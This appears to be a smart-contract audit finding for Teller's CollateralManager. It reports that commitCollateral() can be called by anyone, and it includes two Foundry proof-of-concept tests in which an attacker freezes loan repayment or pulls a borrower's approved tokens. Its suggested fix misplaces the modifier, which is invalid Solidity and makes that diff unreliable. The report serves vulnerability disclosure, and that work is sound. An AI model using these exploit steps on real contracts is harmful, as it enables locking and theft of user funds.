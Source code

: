 Inspex

high

# The commitCollateral() functions can be publicly called causing a permanent lock on user funds and draining approved funds.

## Summary
Any one can call `CollateralManager.commitCollateral()` of any bidId in any state. If it is called when the bid is pending, the arbitrary added collateral will be taken from the borrower once it is accepted. Otherwise, if it is called when the bid is accepted, the borrower will be unable to repay the loan, and the liquidator cannot liquidate the loan.

## Vulnerability Detail
The `commitCollateral()` functions in the `CollateralManager` is improperly implemented due to lack of `onlyTellerV2` modifier.

https://github.com/sherlock-audit/2023-03-teller/blob/main/teller-protocol-v2/packages/contracts/contracts/CollateralManager.sol#L117-L130

https://github.com/sherlock-audit/2023-03-teller/blob/main/teller-protocol-v2/packages/contracts/contracts/CollateralManager.sol#L138-L147

This allow anyone to call and add arbitrary collateral to any loan.

## Impact
If it is called when the bid is pending, the arbitrary added collateral will be taken from the borrower once it is accepted. Adding a malicious token to the loan can DOS it if the attackers want this technique to be used to force the loan to be liquidated.

Otherwise, if it is called when the bid is accepted, the borrower will be unable to repay the loan, and the liquidator cannot liquidate the loan. Resulting in a permanent lock on collateral.


The following POC can be tested by adding to test file TellerV2_Test.sol
https://github.com/sherlock-audit/2023-03-teller/blob/main/teller-protocol-v2/packages/contracts/tests/TellerV2/TellerV2_Test.sol

```solidity
function test_dos_repay() public {
    // Submit bid as borrower
    uint256 bidId = submitCollateralBid();
    // Accept bid as lender
    acceptBid(bidId);

    // Get newly created escrow
    address escrowAddress = collateralManager._escrows(bidId);
    CollateralEscrowV1 escrow = CollateralEscrowV1(escrowAddress);

    uint256 storedBidId = escrow.getBid();

    // Test that the created escrow has the same bidId and collateral stored
    assertEq(bidId, storedBidId, "Collateral escrow was not created");

    uint256 escrowBalance = wethMock.balanceOf(escrowAddress);

    assertEq(collateralAmount, escrowBalance, "Collateral was not stored");

    // attacker dos repay
    vm.startPrank(address(0x1337));
    TestERC20Token maliciousToken = new TestERC20Token("token", "token", 10000000, 18);
    Collateral memory cinfo;
    cinfo._amount = 1;
    cinfo._tokenId = 0;
    cinfo._collateralType = CollateralType.ERC20;
    cinfo._collateralAddress = address(maliciousToken);
    maliciousToken.transfer(address(borrower), 1);
    collateralManager.commitCollateral(bidId, cinfo);
    vm.stopPrank();

    // Repay loan
    uint256 borrowerBalanceBefore = wethMock.balanceOf(address(borrower));
    Payment memory amountOwed = tellerV2.calculateAmountOwed(bidId);
    borrower.addAllowance(
        address(daiMock),
        address(tellerV2),
        amountOwed.principal + amountOwed.interest
    );
    vm.expectRevert("No collateral balance for asset");
    borrower.repayLoanFull(bidId);
}

function test_drain_token() public {
    // Submit bid as borrower
    uint256 bidId = submitCollateralBid();

    // borrower hold usdc and have approved it to the platform
    TestERC20Token mockusdc = new TestERC20Token("usdc", "usdc", 10000000, 18);
    mockusdc.transfer(address(borrower), 10000000);
    borrower.addAllowance(address(mockusdc), address(collateralManager), 10000000);

    // attacker drain another token
    vm.startPrank(address(0x1337));
    Collateral memory cinfo;
    cinfo._amount = 10000000;
    cinfo._tokenId = 0;
    cinfo._collateralType = CollateralType.ERC20;
    cinfo._collateralAddress = address(mockusdc);
    collateralManager.commitCollateral(bidId, cinfo);
    vm.stopPrank();

    // Accept bid as lender
    acceptBid(bidId);

    // Get newly created escrow
    address escrowAddress = collateralManager._escrows(bidId);
    CollateralEscrowV1 escrow = CollateralEscrowV1(escrowAddress);

    uint256 storedBidId = escrow.getBid();

    // Test that the created escrow has the same bidId and collateral stored
    assertEq(bidId, storedBidId, "Collateral escrow was not created");

    uint256 escrowBalance = wethMock.balanceOf(escrowAddress);
    assertEq(collateralAmount, escrowBalance, "Collateral was not stored");

    // check token is drain to escrow
    uint256 mockusdcEscrowBalance = mockusdc.balanceOf(escrowAddress);
    assertEq(10000000, mockusdcEscrowBalance, "Collateral was not stored");
}
```

## Code Snippet
https://github.com/sherlock-audit/2023-03-teller/blob/main/teller-protocol-v2/packages/contracts/contracts/CollateralManager.sol#L117-L130

https://github.com/sherlock-audit/2023-03-teller/blob/main/teller-protocol-v2/packages/contracts/contracts/CollateralManager.sol#L138-L147
## Tool used

Manual Review

## Recommendation
Adding the `onlyTellerV2` modifier to `commitCollateral(uint256,Collateral[])` function, and removing the second `commitCollateral(uint256,Collateral)` function since it is never called by `TellerV2` contract.

https://github.com/sherlock-audit/2023-03-teller/blob/main/teller-protocol-v2/packages/contracts/contracts/CollateralManager.sol#L111-L147

```diff
  /**
   * @notice Checks the validity of a borrower's multiple collateral balances and commits it to a bid.
   * @param _bidId The id of the associated bid.
   * @param _collateralInfo Additional information about the collateral assets.
   * @return validation_ Boolean indicating if the collateral balances were validated.
   */
  function commitCollateral(
      uint256 _bidId,
      Collateral[] calldata _collateralInfo
- ) public returns (bool validation_) {
+ ) public returns onlyTellerV2 (bool validation_) {
      address borrower = tellerV2.getLoanBorrower(_bidId);
      (validation_, ) = checkBalances(borrower, _collateralInfo);

      //if the collateral info is valid, call commitCollateral for each one
      if (validation_) {
          for (uint256 i; i < _collateralInfo.length; i++) {
              Collateral memory info = _collateralInfo[i];
              _commitCollateral(_bidId, info);
          }
      }
  }

- /**
-  * @notice Checks the validity of a borrower's collateral balance and commits it to a bid.
-  * @param _bidId The id of the associated bid.
-  * @param _collateralInfo Additional information about the collateral asset.
-  * @return validation_ Boolean indicating if the collateral balance was validated.
-  */
- function commitCollateral(
-     uint256 _bidId,
-     Collateral calldata _collateralInfo
- ) public returns (bool validation_) {
-     address borrower = tellerV2.getLoanBorrower(_bidId);
-     validation_ = _checkBalance(borrower, _collateralInfo);
-     if (validation_) {
-         _commitCollateral(_bidId, _collateralInfo);
-     }
- }
```
